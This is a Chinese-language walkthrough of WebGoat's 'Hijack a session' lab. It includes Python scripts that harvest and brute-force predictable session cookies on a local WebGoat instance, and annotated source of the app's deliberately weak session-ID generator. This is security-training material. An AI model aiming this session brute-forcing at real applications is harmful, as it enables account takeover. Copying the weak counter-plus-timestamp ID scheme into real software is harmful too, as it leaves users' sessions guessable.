

# Hijack a session

[TOC]

## Concept

Application developers who develop their own session IDs frequently forget to incorporate the complexity and randomness necessary for security. If the user specific session ID is not complex and random, then the application is highly susceptible to session-based brute force attacks.


session IDs：会话标识符

incorporate：将特性或者元素融入到某种事物中，让其成为其一部分

brute force attacks：暴力攻击，brute 原始的，粗暴的

## 解决思路

### 批量获取session寻找规律

```
import requests

def get_cookievalue(cookie_str, name):
    # 以分号分割 cookie 字符串
    cookie_parts = cookie_str.split(';')

    # 获取第一个部分（即 cookie 名称和值）
    cookie_name_value = cookie_parts[0]

    # 以等号分割 cookie 名称和值
    cookie_name, cookie_value = cookie_name_value.split('=')

    # 打印 cookie 名称和值
    # print("Cookie Name:", cookie_name)
    # print("Cookie Value:", cookie_value)
    return cookie_value
    

def get_hijack_cookie():
    url = 'http://127.0.0.1:8080/WebGoat/HijackSession/login'
    headers = {'Cookie': 'JSESSIONID=5-szNP1aYQ_A2JUawBSK4QOJiFaswaNiw2kV10io;'}
    # username=webgoat&password=P%40ssw0rd
    data = {"username": "webgoat", "password": "P@ssw0rd"}
    # start 
    response = requests.post(url, headers=headers, data=data, verify=False)
    # debug
    # print(response.headers)
    # print(response.text)
    
    # check response
    if response.status_code == 200:
        cookies = response.headers.get('Set-Cookie')
        return get_cookievalue(cookies, 'hijack_cookie')
    else:
        print("POST request faild！")
        print("Error Code:", response.status_code)
        return ""

with open("hijack_cookie.txt", "w") as file:
    for i in range(100):
        tmp = get_hijack_cookie()
        file.write(tmp + '\n')
```

```
3957865009380215350-1715592574366
3957865009380215352-1715592574369
3957865009380215353-1715592574371
3957865009380215354-1715592574374
3957865009380215355-1715592574377
3957865009380215357-1715592574380
3957865009380215358-1715592574382
3957865009380215359-1715592574385
3957865009380215360-1715592574388
3957865009380215362-1715592574392
3957865009380215364-1715592574394
3957865009380215365-1715592574397
3957865009380215366-1715592574400
3957865009380215367-1715592574402
3957865009380215369-1715592574405
3957865009380215370-1715592574409
3957865009380215371-1715592574417
3957865009380215372-1715592574420

```

通过观察，发现session分为A-B两部分。AB按照请求先后顺序递增。因此猜测在3957865009380215367-1715592574402和3957865009380215369-1715592574405存在有效session。



因此只要暴力测试一下session即可，测试用例如下因此手工尝试即可。

```
3957865009380215368-1715592574402
3957865009380215368-1715592574403
3957865009380215368-1715592574404
3957865009380215368-1715592574405
```

## 爆破脚本

```java
import requests
import sys
import json

def get_cookievalue(cookie_str, name):
    # 以分号分割 cookie 字符串
    cookie_parts = cookie_str.split(';')

    # 获取第一个部分（即 cookie 名称和值）
    cookie_name_value = cookie_parts[0]

    # 以等号分割 cookie 名称和值
    cookie_name, cookie_value = cookie_name_value.split('=')

    # 打印 cookie 名称和值
    # print("Cookie Name:", cookie_name)
    # print("Cookie Value:", cookie_value)
    return cookie_value
    

def get_hijack_cookie(jsessionid):
    url = 'http://127.0.0.1:8080/WebGoat/HijackSession/login'
    headers = {'Cookie': 'JSESSIONID=' + jsessionid}
    # username=webgoat&password=P%40ssw0rd
    data = {"username": "webgoat", "password": "P@ssw0rd"}
    # start 
    response = requests.post(url, headers=headers, data=data, verify=False)
    # debug
    # print(response.headers)
    # print(response.text)
    
    # check response
    if response.status_code == 200:
        cookies = response.headers.get('Set-Cookie')
        if cookies == None:
            print("JSESSIONID is error")
            sys.exit()
        return get_cookievalue(cookies, 'hijack_cookie')
    else:
        print("POST request faild！")
        print("Error Code:", response.status_code)
        return ""

def req(jsessionid, hijack_cookie=""):
    url = 'http://127.0.0.1:8080/WebGoat/HijackSession/login'
    headers = {'Cookie': 'JSESSIONID=' + jsessionid + '; hijack_cookie='
               + hijack_cookie}
    
    # username=webgoat&password=P%40ssw0rd
    data = {"username": "webgoat", "password": "P@ssw0rd"}
    # start 
    response = requests.post(url, headers=headers, data=data, verify=False)
    
    # check response
    data = json.loads(response.text)
    if response.status_code == 200:
        return data
    else:
        print("POST request faild！")
        print("Error Code:", response.status_code)
        return ""

def brute_request(A, B):
    before = A+1
    for b in range(20):
        after = B + b
        hijack_cookie = str(before) + '-' + str(after)
        print("Try hijack_cookie: " + hijack_cookie)
        data = req(jsessionid, hijack_cookie)
        if data['lessonCompleted']:
            return hijack_cookie
    return None
    
jsessionid = input("Input JSESSIONID: ")
#jsessionid="NpZL-YervfN1iWiN-ugAOSTGRe7ehfCLt3Vo64W0"

while True:
    tmp = get_hijack_cookie(jsessionid)
    a, b = tmp.split('-')
    hijack_cookie = brute_request(int(a), int(b))
    if None != hijack_cookie:
        print("hijack_cookie is %s" % hijack_cookie)
        break
    
    
```


## 源码分析

```java
package org.owasp.webgoat.lessons.hijacksession.cas;

import java.security.Principal;
import lombok.Builder;
import lombok.Getter;
import lombok.ToString;

@Getter // lombok库提供的注解，编译时为该类型自动生成get方法，从而简化开发。
@ToString // lombok库提供的注解，编译时为该类型自动生成tostring方法，从而简化开发。
public class Authentication implements Principal {

  private boolean authenticated = false;
  private String name; // 保存用户名是一个String类型
  private Object credentials; // 保存用户密码是一个String类型
  private String id;

  @Builder // lombok库提供的注解，为该类型自动生成类工厂方法代码，从而简化开发。
  public Authentication(String name, Object credentials, String id) {
    this.name = name;
    this.credentials = credentials;
    this.id = id;
  }

  @Override
  public String getName() {
    return name;
  }

  protected void setAuthenticated(boolean authenticated) {
    this.authenticated = authenticated;
  }

  protected void setId(String id) {
    this.id = id;
  }
}

```

```java
package org.owasp.webgoat.lessons.hijacksession.cas;

import java.security.Principal;

/**
 * @author Angel Olle Blazquez
 */
@FunctionalInterface
public interface AuthenticationProvider<T extends Principal> {

  T authenticate(T t);
} // 定义了一个泛型接口AuthenticationProvider，该接口使用了泛型类型参数 T，并且限定 T 必须是 Principal 或其子类型。这使得这个接口可以处理不同类型的 Principal 实现。

```

在JAAS即Java Authentication and Authorization Service中有两个概念，一个是Subject，一个是Principle。在逻辑上这两个概念的含义分别为。

* Subject表示一个经过认证的实体，这个实体可以是用户可以是服务。
* Principle表示一个实体所拥有的身份信息，用来标识对资源的访问权限。

举个例子，假设一个用户`Alice`在系统中有一个用户名为`Alice123`，于此同时他还是一个管理员角色(admin角色)。那么在JAAS系统中，这个用户的Subject可能就要包含两个Principle。一个表示其是系统用户的Principle，一个表示其是管理员的Priciple。


在Java代码中Subject和Principle则表现为。

* Principle是一个接口，这个接口提供一组抽象方法（用来验证身份信息）
* Subject则编程一个容器，用来容纳实现了Principle接口的实例对象。

```java
package org.owasp.webgoat.lessons.hijacksession.cas;

import java.time.Instant;
import java.util.LinkedList;
import java.util.Queue;
import java.util.Random;
import java.util.concurrent.ThreadLocalRandom;
import java.util.function.DoublePredicate;
import java.util.function.Supplier;
import org.apache.commons.lang3.StringUtils;
import org.springframework.stereotype.Component;
import org.springframework.web.context.annotation.ApplicationScope;

/**
 * @author Angel Olle Blazquez
 */

// weak id value and mechanism

@ApplicationScope // @ApplicationScope 是一个来自于 Spring Framework 的注解，用于指示一个 bean 的作用域是应用程序级别的。这意味着在整个应用程序的生命周期内，只会存在一个该类型的 bean 实例，它被存储在应用程序的上下文中
@Component
public class HijackSessionAuthenticationProvider implements AuthenticationProvider<Authentication> {

  private Queue<String> sessions = new LinkedList<>(); // FIFO队列，实现是通过LinkedList实现
  private static long id = new Random().nextLong() & Long.MAX_VALUE;
  protected static final int MAX_SESSIONS = 50;

  private static final DoublePredicate PROBABILITY_DOUBLE_PREDICATE = pr -> pr < 0.75; // 0.75断言
  private static final Supplier<String> GENERATE_SESSION_ID = 
      () -> ++id + "-" + Instant.now().toEpochMilli(); // // session 生成器
  public static final Supplier<Authentication> AUTHENTICATION_SUPPLIER =
      () -> Authentication.builder().id(GENERATE_SESSION_ID.get()).build(); // Authentication对象生成器

  @Override
  public Authentication authenticate(Authentication authentication) {
    /*
    * authentication为空，则要生成一个未验证的Authentication实例返回。
    */
    if (authentication == null) {
      return AUTHENTICATION_SUPPLIER.get();
    }

    /*
    * authentication不为空且authentication id不为空则会开启验证过程，检查authentication.getId()即session
    * id是否在sessions队列中，在队列中则验证通过。
    */
    if (StringUtils.isNotEmpty(authentication.getId())
        && sessions.contains(authentication.getId())) {
      authentication.setAuthenticated(true);
      return authentication;
    }

      /*
      * authentication不为空且authentication id为空则会生成一个authentication id并返回。
      */
    if (StringUtils.isEmpty(authentication.getId())) {
      authentication.setId(GENERATE_SESSION_ID.get());
    }

    /*
    * 每次有75%概率制造一个已验证的authentication实例，用于劫持session
    */
    authorizedUserAutoLogin();

    return authentication;
  }

  protected void authorizedUserAutoLogin() {
    if (!PROBABILITY_DOUBLE_PREDICATE.test(ThreadLocalRandom.current().nextDouble())) {
      // 生成一个Authentication实例
      Authentication authentication = AUTHENTICATION_SUPPLIER.get();
      // 将Authentication实例设置为已验证
      authentication.setAuthenticated(true);
      // 将Authentication实例的ID添加到sessions队列中
      addSession(authentication.getId());
    }
  }

  /*
  * 向名为sessions的队列中添加新session，并防止session队列中session过多。
  */
  protected boolean addSession(String sessionId) {
    if (sessions.size() >= MAX_SESSIONS) {
      // 移除并返回队列头部的元素，如果队列为空，抛出异常
      sessions.remove();
    }
    return sessions.add(sessionId);
  }

  protected int getSessionsSize() {
    return sessions.size();
  }
}
```

```java
package org.owasp.webgoat.lessons.hijacksession;

import jakarta.servlet.http.Cookie;
import jakarta.servlet.http.HttpServletResponse;
import org.apache.commons.lang3.StringUtils;
import org.owasp.webgoat.container.assignments.AssignmentEndpoint;
import org.owasp.webgoat.container.assignments.AssignmentHints;
import org.owasp.webgoat.container.assignments.AttackResult;
import org.owasp.webgoat.lessons.hijacksession.cas.Authentication;
import org.owasp.webgoat.lessons.hijacksession.cas.HijackSessionAuthenticationProvider;
import org.springframework.beans.factory.annotation.Autowired;
import org.springframework.web.bind.annotation.CookieValue;
import org.springframework.web.bind.annotation.PostMapping;
import org.springframework.web.bind.annotation.RequestParam;
import org.springframework.web.bind.annotation.ResponseBody;
import org.springframework.web.bind.annotation.RestController;

/***
 *
 * @author Angel Olle Blazquez
 *
 */

@RestController
@AssignmentHints({
  "hijacksession.hints.1",
  "hijacksession.hints.2",
  "hijacksession.hints.3",
  "hijacksession.hints.4",
  "hijacksession.hints.5"
})
public class HijackSessionAssignment extends AssignmentEndpoint {

  private static final String COOKIE_NAME = "hijack_cookie";

  @Autowired HijackSessionAuthenticationProvider provider;

  @PostMapping(path = "/HijackSession/login")
  @ResponseBody
  public AttackResult login(
      @RequestParam String username,
      @RequestParam String password,
      @CookieValue(value = COOKIE_NAME, required = false) String cookieValue,
      HttpServletResponse response) {

    Authentication authentication;
    if (StringUtils.isEmpty(cookieValue)) {
      // cookievalue为空则应该，根据上面的代码，得知会触发生成authentication id的逻辑。
      authentication =
          authenticate(
              Authentication.builder().name(username).credentials(password).build());
      // 将获得到authentication id即session id放到cookie中返回
      setCookie(response, authentication.getId());
    } else {
      // cookievalue为空则应该，根据上面的代码，得知会触发生成authentication id验证逻辑。
      authentication = provider.authenticate(Authentication.builder().id(cookieValue).build());
    }

    if (authentication.isAuthenticated()) {
      return success(this).build();
    }

    return failed(this).build();
  }

  private void setCookie(HttpServletResponse response, String cookieValue) {
    Cookie cookie = new Cookie(COOKIE_NAME, cookieValue);
    cookie.setPath("/WebGoat");
    cookie.setSecure(true);
    response.addCookie(cookie);
  }
}

```

